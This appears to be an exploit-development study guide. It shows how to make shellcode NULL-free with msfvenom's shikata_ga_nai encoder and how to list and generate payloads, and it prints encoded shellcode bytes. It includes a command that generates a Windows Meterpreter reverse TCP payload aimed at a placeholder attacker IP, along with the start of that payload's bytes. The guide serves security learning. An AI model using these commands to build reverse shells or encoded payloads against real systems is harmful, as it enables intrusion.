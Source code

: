 Although we can create our own encoder, there are some freely available tools that will help us to automatically do that. One of the easiest to use is **msfvenom**.

Previous version of the shellcode:
```
"\x68\x63\x6D\x64\x00\x8B\XDC\x6a\x00\x68\x6F\x70\x65\x6E\x8B\xCC\x6a\x03\x33\xC0\x50\x50\x53\x51\x50\xB8\x70\xD9\x46\x76\xff\xD0"
```
We want to use msfvenom in order to encode it and make the shellcode NULL-free.

First, we have to convert our shellcode in a binary file:
`echo -ne "x68\x63\x6d..." > binshellcode.bin`: where `-n` is used to not output the trailing newline, `-e` enables interpretation of backslash escapes.

`hexdump binshellcode.bin`:
```
0000000 6368 646d 8b00 6adc 6800 706f 6e65 cc8b 0000010 036a c033 5050 5153 b850 d970 7646 d0ff 0000020
```

`cat binshellcode.bin | msfvenom -p - -a x86 --platform win -e x86/shikata_ga_nai -f c -b '\x00'`: where `-b '\x00'` is used to specify a list of (bad) characters to avoid when generating the shellcode, `-p -` to read the custom payload from the stdin, `-e x86/shikata_ga_nai` specifies the encoder to use, `-f c` sets the output format.

msfvenom will print the shellcode to the terminal:
```
"\xbf\x4b\x46\x47\x2c\xda\xc3\xd9\x74\x24\xf4\x5b\x31\xc9\xb1" "\x09\x31\x7b\x12\x03\x7b\x12\x83\xa0\xba\xa5\xd9\x5e\x20\x47" "\x46\x9e\x2d\x4b\xec\x9e\x59\x1b\x81\xfb\xf7\x68\xad\x69\x0b" "\x5c\xee\x3d\x5b\xf1\xbf\xed\xe3\x85\xe6\x4b\x62\x99\xc9"
```
Notice that this is NULL-free.

Although in our example here, we're able to determine the bad character for our vulnerable program to be a NULL byte (`\x00`), there are many cases where there are often more than one bad character that we can't use when developing our exploit.
We may need to account for the newline (`\n`, `\x0A`) character for instance.

### Shellcode and Payload Generators - Study Guide

Since creating custom shellcodes may be time-consuming, throughout the year's many powerful tools have been developed to enhance and automate the entire process. The most famous tools that allow us to automatically generate shellcodes and payloads are **msfvenom**, the **backdoor factory** and **veil-framework**.

Msfvenom.

`msfvenom --list payloads`: to list all the available payloads.
`msfvenom -p <Payload> --payload-options`: to list all the available options for a specific payload.
Example: `msfvenopm -p windows/messagebox TEXT="My first msfvenom shellcode" -f c --platform windows -a x86`.

Let's now generate a reverse TCP Meterpreter payload.
`msfvenom --list payloads | grep -i "Meterpreter"`.
`msfvenom -p windows/meterpreter/reverse_tcp --payload-options`.
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<AttackerIP> LPORT=<AttackerPort> -f c`:
```c
unsigned char buf[] =
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
...

```
